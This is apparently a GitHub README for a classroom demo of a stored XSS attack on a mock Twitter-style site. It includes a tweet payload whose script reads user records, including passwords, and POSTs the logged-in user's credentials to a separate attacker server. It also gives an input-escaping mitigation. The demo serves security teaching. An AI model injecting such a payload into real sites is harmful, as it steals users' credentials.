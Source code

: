 # XSS example for Security 2

Extremely simple example of an XSS attack. This case is used to see security analysis and protocols working in practice. 

### Installing and Running

Install with npm
```
npm install
```

Start two servers: the server hosting the page and a malicious server.
```
node server/server.js
node attacker/eve.js
json-server --watch db.json --port 3004

// Begin Tweet

Just a normal tweet not an secret script or something
<script>
    $.get('http://localhost:3004/users', function (data, status) {
        for (var i = 0; i < data.length; i++) {
            var obj = data[i];
            if (obj.userName === localStorage.getItem("User")) {
                const data2 = `Username=${obj.userName} - Password=${obj.password}`;
                $.ajax({
                    url: 'http://localhost:3007',
                    method: 'POST',
                    type: 'jsonp',
                    data: data2
                })
            }
        }
    })
</script>

// End Tweet

Mitigation = Validation on the tweet message by adding this

const message = $('#tweet').val();
const edited = message.replace(/&/g, "&amp;").replace(/>/g, "&gt;").replace(/</g, "&lt;").replace(/"/g, "&quot;");
const data = {
                tweet: edited,
                author: localStorage.getItem('User')
            }



